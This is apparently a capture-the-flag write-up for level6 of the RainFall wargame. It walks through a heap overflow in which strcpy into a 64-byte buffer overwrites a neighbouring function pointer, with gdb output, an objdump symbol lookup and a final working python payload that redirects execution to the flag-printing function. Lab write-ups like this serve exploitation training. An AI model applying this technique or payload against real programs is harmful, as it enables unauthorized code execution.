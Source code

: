 First, let's analyze the source code.

We can see that :
    
- The main function allocate 2 pointer one for a string with a size of 64 char and one function pointer with a size of 4 bytes.
- It store the address of the function `m` in the function pointer
- The main copy `argv[1]` in the buffer (`dest`) with a `strcpy`
- And finish by executing the function at the address store in the function pointer
- In the source code there is 2 other function :
    - The function `m` write "Nope"
    - The function `n` cat the flag


Let's focus on the mallocs, since they allocate memory one after the other, since the char buffer is allocate first we can use the buffer `dest` to overwrite the function pointer with the address of `n`

To do this, we will start by determining the offset needed to make the buffer(`dest`) overwrite the function pointer, using [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator).
``` Shell
level6@RainFall:~$ gdb level6
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```
When we put `0x41346341` in [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator) it find an offset of 72.


After that, we will look for the pointer to n.


```Shell
objdump -t level6
...
08049824  w      .data  00000000              data_start
08048454 g     F .text  00000014              n
0804982c g       *ABS*  00000000              _edata
...
```

address of `n` : `08048454`
little-endian : `/x54/x84/x04/x08`

Putting this together give us :
```Shell
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```
